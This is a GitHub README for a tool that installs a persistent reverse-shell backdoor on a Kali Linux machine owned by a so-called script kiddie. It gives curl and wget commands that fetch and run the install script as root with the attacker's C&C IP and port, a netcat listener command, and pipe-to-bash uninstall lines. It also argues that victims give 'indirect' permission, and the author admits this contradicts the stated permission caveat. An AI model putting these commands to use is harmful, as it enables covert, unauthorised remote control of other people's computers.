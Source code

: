 # skid BEGONE!

How to backdoor a script kiddie's Kali Linux install within seconds.

This assumes that the skid is at [peak mt. stupid](DK-effect.png) and thinks that the ping command can DDOS NASA's supercomputers.

For your best enjoyment, please make sure that the skid in this case is running Kali on real hardware.

I hope to see your post on r/masterhacker using my script.

Also **DO NOT use this against people who are not script-kiddies** (or skids, both mean the same). If you use this on let's say your friend who is not an arrogant skid *you'll be the greatest asshole of all time to them*.

If you want to use this for remote administration, consider setting up SSH.

If using a reverse-shell is your only *working* alternative to SSH, then go ahead (as long as you have permission by the owner of the machine).

*Hey, aren't you already contradicting yourself by saying "you need to have permission"?*
Yes I am, absolutely. However, due to the nature of skids (blindly running commands), they would get themselves in such situations anyways, if not worse. You can see it like this: The skid gives you permission indirectly because they'll happily run any command as root anyways.
One day they will learn the hard way...

## Using the backdoor

### Prerequisites

- skid must be a wannabe hacker (see assumption above)
- you must obtain a root reverse-shell
- skid must run Kali (other distros *might* work too)

### Actually running the script (run as root)

Note: If you want the backdoored machine to reboot, append `reboot` to the commandline arguments, as denoted by `[reboot]`

```sh
curl -sSL https://raw.githubusercontent.com/GermanBread/skid-begone/master/install.sh > /tmp/install.sh
bash /tmp/install.sh <IP OF THE C&C server> <FREE PORT ON THE C&C SERVER> [reboot]
```

alternatively with wget:

```sh
wget -qq https://raw.githubusercontent.com/GermanBread/skid-begone/master/install.sh -O /tmp/install.sh
bash /tmp/install.sh <IP OF THE C&C server> <FREE PORT ON THE C&C SERVER> [reboot]
```

By default the backdoor will start alongside other system services. If the service can't connect to the command and control server, it will wait for a few seconds and reconnect immediately after.

By "command and control server" I mean you, the one reading this right now, listening on the port you specified during install of the backdoor, using netcat (here's the command: `nc -vlp <your port>`).

### Uninstalling (run as root)

```sh
curl -sSL https://raw.githubusercontent.com/GermanBread/skid-begone/master/undo.sh | bash
```

alternatively with wget:

```sh
wget -qq https://raw.githubusercontent.com/GermanBread/skid-begone/master/undo.sh -O - | bash
```